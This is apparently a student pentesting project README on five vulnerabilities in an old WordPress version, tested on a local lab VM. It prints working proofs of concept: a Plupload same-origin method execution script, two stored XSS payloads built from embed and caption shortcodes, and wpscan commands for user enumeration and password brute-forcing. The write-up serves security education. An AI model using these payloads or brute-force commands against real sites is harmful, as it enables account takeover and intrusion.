




# Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report
1. (Required) WordPress 4.0-4.2.8 - Pupload Same-Origin Method Execution (SOME) attack
    - [x] Summary: 
        a. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566
        b. https://wpvulndb.com/vulnerabilities/8489
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
    - [x] GIF Walkthrough: 
    

    - [x] Steps to recreate: 
        a. Wait for editor type approval from admin
        b. Comment with payload below.
        c. Payload:
	```
	<button onclick="fire()">Click</button>
			<script>
			function fire() { 
				open('javascript:setTimeout("location=\'http://wpdistillery.vm/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
  				setTimeout('location="http://wpdistillery.vm/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
			}
		</script> 
	```
    - [x] Affected source code:
        - [Ref](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)

2. (Required) WordPress 4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
    - [x] Summary: 
        1. Reference: https://wpvulndb.com/vulnerabilities/8768
        2. Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
        3. Reference: https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
        4. Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
        5. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
    - Vulnerability types: XSS
    - Tested in version: 4.1.1
    - Fixed in version: 4.1.16
    - [x] GIF Walkthrough: 
    

    - [x] Steps to recreate:
    	a. Create a new post
	b. Edit as text
	c. Put: ` [embed src='http://youtube.com/embed/12345\x3csvg onload=alert("xssembedexploit")\x3e'][/embed] `

    - [x] Affected source code:
        - [Ref](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)

3. (Required) Shortcodes: allow unclosed HTML elements in attributes
  - [x] Summary: Allows malformed HTML elements to execute JS in the browser when creating or editing pages or posts using plain text editor.
   WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  	1. Reference: https://wpvulndb.com/vulnerabilities/8186 
	2. Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/ 
	3. Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/ 
	4. Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/ 
	5. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.5
    - [x] GIF Walkthrough: 
    

  - [x] Steps to recreate: 
          1. Create new page or edit new page.
          2. Insert the following: `[caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert('XSS EXPLOIT')'">XSS</a>`
          3. View page and mouseover to see alert
  - [x] Affected source code:
    - [Ref](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)

4. (Optional) User Enumeration using wpscan
  - [x] Summary: Due to the different login error messages, we can determine whether or not a user account exists on the WordPress install. Using wpscan we can enumerate all usernames since the install does not limit log in attempts or use captchas.
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: N/A
    - [x] GIF Walkthrough: 
    

  - [x] Steps to recreate: 
    - In the Kali terminal run: `wpscan --url http://wpdistillery.vm --enumerate u`
  - [x] Affected source code:
    - [Ref](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-login.php)

5. (Optional) Vulnerable ID using wpscan
  - [x] Summary: Using a wordlist of common passwords after enumerating the users as we did previously, we can brute force passwords and retrieve login information for any user with an insecure password.
    - Vulnerability types: Login Vulnerability
    - Tested in version: 4.2
    - Fixed in version: N/A
    - [x] GIF Walkthrough: 
    

  - [x] Steps to recreate: 
    - In the Kali terminal run `wpscan --url http://wpdistillery.vm --passwords /usr/share/wordlists/fasttrack.txt --username bob`
  - [x] Affected source code:
    - [Ref](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-login.php)
 
## Assets

fasttrack.txt with Kali Linux was used as the wordlist for the wpscan enumerage 

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

There were some challenges setting up the host file for the virtual box image, using docker is better than vagrant as it's less resource intensive.

## License

    Copyright 2021 LifeBringer

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
